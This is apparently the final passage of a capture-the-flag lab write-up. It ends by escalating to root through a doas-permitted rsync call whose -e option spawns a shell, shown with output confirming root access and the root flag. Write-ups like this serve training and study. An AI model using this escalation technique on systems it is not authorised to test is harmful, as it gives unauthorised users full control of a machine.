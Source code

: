 let's check [GTFOBin](https://gtfobins.github.io/)

![image-20210126162815526](Sustah_writeup.assets/image-20210126162815526.png)

```sh
kiran@ubuntu-xenial:~$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
id
uid=0(root) gid=0(root) groups=0(root)
# ls
ls
user.txt
# ls /root
ls /root
root.txt
# 
```

Boom , we're finally rooted the system . let's get the root flag and complete the room.

![](Sustah_writeup.assets/image-20210126150508466.png)

 Happy Hacking





